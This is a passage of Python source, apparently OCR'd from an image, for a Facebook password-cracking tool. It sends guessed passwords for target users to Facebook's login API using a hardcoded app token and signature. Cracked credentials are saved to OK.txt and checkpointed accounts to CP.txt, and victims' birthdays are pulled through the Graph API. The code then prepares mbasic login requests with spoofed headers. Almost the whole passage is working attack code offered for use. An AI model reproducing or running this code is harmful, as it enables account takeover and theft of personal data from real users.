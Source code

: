             except (KeyError, IOError):
                ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
            p = Prof_IMtiaz("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+user+"&locale=en_US&password="+pw+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6").json()
            if "access_token" in p:
                IMTIAZ_AKING('\r\033[1;92m[SUCCESSFULL-IDREES] %s | %s%s      '%(user,pw,tahun(user)))
                wrt = '%s - %s %s'%(user,pw,tahun(user))
                ok.append(wrt)
                open('OK.txt','a').write('%s\n' % wrt)
                break
            elif "www.facebook.com" in p["error_msg"]:
                try:
                    token = IMTIAZ('login.txt').read()
                    cp_ttl = Prof_Imtiaz('https://graph.facebook.com/%s?access_token=%s'%(user,token)).json()['birthday']
                    month, day, year = cp_ttl.split('/')
                    month = bulan_ttl[month]
                    IMTIAZ_AKING('\r\033[1;92m[SUCCESSFULL-SUBHAN]  %s | %s • %s %s %s%s      '%(user,pw,day,month,year,tahun(user)))
                    wrt = '%s - %s - %s %s %s%s'% (user,pw,day,month,year,tahun(user))
                    cp.append(wrt)
                    open('OK.txt','a').write('%s\n' % wrt)
                    break
                    continue
                except (KeyError, IOError):
                    month = ''
                    day   = ''
                    year  = ''
                except:
                    pass
                IMTIAZ_AKING('\r\033[1;91m[SUBHAN-CHECKPOINT] %s | %s%s      '%(user,pw,tahun(user)))
                wrt = '%s - %s%s' % (user,pw,tahun(user))
                cp.append(wrt)
                open('CP.txt','a').write('%s\n' % wrt)
                break
                continue
        loop += 1
    def __mbasic__(self, user, _sempak_):
        global ok,cp,loop
        sys.stdout.write('\r\033[1;92m [SUBHAN] %s/%s  \033[1;92mIDREESOK-:%s / \033[1;91mIDREESDIEDCP-:%s '%(loop,len(self.id),len(ok),len(cp))),
        sys.stdout.flush()
        for pw in _sempak_:
            pw = pw.lower()
            try: os.mkdir('')
            except: pass
            try:
                ua_xiaomi = IMTIAZ('agent.txt', 'r').read()
            except (KeyError, IOError):
                ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
            ses = requests.Session()
            headers_ = {"Host":"mbasic.facebook.com","upgrade-insecure-requests":"1","user-agent":"NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}